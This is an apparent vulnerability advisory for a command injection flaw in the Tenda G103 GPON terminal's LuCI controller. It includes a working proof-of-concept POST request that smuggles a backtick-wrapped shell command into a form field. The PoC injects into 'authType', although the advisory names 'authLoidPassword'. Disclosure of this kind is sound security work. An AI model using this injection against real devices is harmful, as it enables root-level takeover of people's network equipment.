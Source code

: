 # Tenda G103 Command Injection Vulnerability in `authLoidPassword` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability arises due to improper sanitization of the `authLoidPassword` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this flaw to execute arbitrary system commands with root privileges, potentially leading to full device compromise.

The environment can be simulated using FirmAE:



![FirmAE Emulation 1](./imgs/1.png)



![FirmAE Emulation 2](./imgs/2.png)

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com.cn/material/show/2615](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `authLoidPassword`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, LOID password tampering, credential leakage, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function processes the `authLoidPassword` parameter, which is intended to configure the password for LOID (Lightwave Optical Network Identifier) authentication. A critical security flaw exists: the `authLoidPassword` parameter is passed directly to system commands such as `fw_setenv` and `uci` without sanitization or input validation.

Key vulnerable code in `gpon.lua`:



![Vulnerable Code Snippet](./imgs/3.png)


Attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or logical operators `&&`) in the `authLoidPassword` parameter. These characters are not filtered, allowing the injected payload to be parsed and executed by the system shell when the concatenated commands are run.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 54
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive
 
authType=1`touch$IFS/tmp/authLoidPassword.txt`
```

#### Execution Steps:



1.  Send the POST request above with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/authLoidPassword.txt`.

#### Expected Result:

The file `/tmp/authLoidPassword.txt` is created, confirming successful execution of the injected `touch` command.



![PoC Result 1](./imgs/4.png)



![PoC Result 2](./imgs/5.png)
